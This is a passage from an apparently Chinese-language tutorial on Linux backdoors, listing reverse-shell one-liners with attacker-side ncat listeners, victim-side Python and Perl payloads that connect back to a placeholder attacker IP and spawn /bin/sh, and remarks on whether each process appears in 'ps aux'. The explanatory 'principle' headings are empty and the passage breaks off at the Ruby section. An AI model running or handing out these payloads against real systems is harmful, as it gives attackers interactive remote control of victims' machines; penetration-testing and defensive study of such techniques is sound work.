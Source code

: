 攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-10.png)

反弹shell进程在`ps aux`中可以检索到。

**原理**

### 0x03 反弹shell：python

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ATTACKER-IP]",10000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-3.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-2.png)

反弹shell进程在`ps aux`中可以检索到。

**原理**

### 0x04 反弹shell：perl

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
perl -e 'use Socket;$i="[ATTACKER-IP]";$p=10000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-5.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-4.png)

反弹shell进程在`ps aux`中不能检索到。

**原理**

### 0x05 反弹shell：ruby
